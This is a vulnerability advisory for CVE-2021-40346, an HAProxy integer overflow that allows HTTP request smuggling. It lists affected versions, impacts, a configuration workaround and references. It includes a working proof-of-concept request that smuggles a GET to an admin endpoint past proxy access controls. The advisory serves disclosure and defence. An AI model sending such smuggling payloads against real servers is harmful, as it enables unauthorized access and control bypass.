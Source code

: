 ## XRAY-10005

**JFrog Severity** High | **Integer Overflow, Restriction Bypass**
*Contextual scanner available*
[CVE-2021-40346](https://nvd.nist.gov/vuln/detail/CVE-2021-40346) | **CVSS** 8.6
**Published** 07/09/21 | **Last updated** 07/09/21

Summary
-------------------
An integer overflow in HAProxy leads to HTTP Smuggling via simple network requests.

Component
-------------------
[HAProxy](http://www.haproxy.org/) (appears X times in Artifactory, Y weekly downloads)

Affected versions
-------------------
HAProxy [2.0 - 2.0.24], fixed in 2.0.25
HAProxy [2.1 - 2.1*], no fix. unmaintained version
HAProxy [2.2 - 2.2.16], fixed in 2.2.17
HAProxy [2.3 - 2.3.13], fixed in 2.3.14
HAProxy [2.4 - 2.4.3], fixed in 2.4.4
HAProxy Enterprise [2.0r1 - 2.0r1-1.0.0-234.1215], fixed in 2.0r1-1.0.0-235.1230
HAProxy Enterprise [2.1r1 - 2.1r1-1.0.0-238.612], fixed in 2.1r1-1.0.0-238.625
HAProxy Enterprise [2.2r1 - 2.2r1-1.0.0-241.491], fixed in 2.2r1-1.0.0-241.505
HAProxy Enterprise [2.3r1 - 2.3r1-1.0.0-242.330], fixed in 2.3r1-1.0.0-242.345
HAProxy Enterprise [2.4r1 - 2.4r1], fixed in 2.4r1-1.0.0-253.271
HAproxy Kubernetes Ingress Controller [1.6 - 1.6.6], fixed in 1.6.7
HAproxy Enterprise Kubernetes Ingress Controller [1.6 - 1.6.6], fixed in 1.6.7
HAProxy ALOHA [11.5 - 11.5.12], fixed in 11.5.13
HAProxy ALOHA [12.5 - 12.5.4], fixed in 12.5.5
HAProxy ALOHA [13.0 - 13.0.6], fixed in 13.0.7

Description
-------------------
Due to an integer overflow, a parsing error is created in HAProxy that allows an attacker to specify two `Content-Length` headers with different sizes. Subsequently, this allows an attacker to perform HTTP smuggling. This attack allows an adversary to smuggle HTTP requests to the backend server, without the proxy server being aware of it. The smuggled requests have various impacts, depending on HAProxy’s configuration and the backend web server configuration: Bypassing security controls, including any ACLs defined in HAProxy, Gaining unauthorized access to sensitive data, Executing unauthorized commands or modifying data, Hijacking user sessions, Exploiting a reflected XSS vulnerability without user interaction.

PoC
-------------------
Any attacker that can send requests through the proxy, can exploit this issue, by sending requests such as:

```
POST /index.html HTTP/1.1
Host: abc.com
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 60

GET /admin/add_user.py HTTP/1.1
Host: abc.com
abc: xyz 


```

The GET request will be smuggled and will evade any ACLs defined in the HAProxy configuration file.

Workaround
-------------------
If you are not able to update right away, you can apply the following rules to your HAProxy configuration file to mitigate the issues. These should be added to your frontend.

```
frontend myfrontend
   http-request deny if { req.hdr_cnt(content-length) gt 1 }
   http-response deny if { res.hdr_cnt(content-length) gt 1 }
```


References
-------------------
[JFrog Blogpost](https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/)

[HAProxy advisory](https://www.haproxy.com/blog/september-2021-duplicate-content-length-header-fixed/)

[ZDNet article](https://www.zdnet.com/article/haproxy-urges-users-to-update-after-http-request-smuggling-vulnerability-found/)

Credit
-------------------
The issue was discovered by JFrog security researcher Ori Hollander
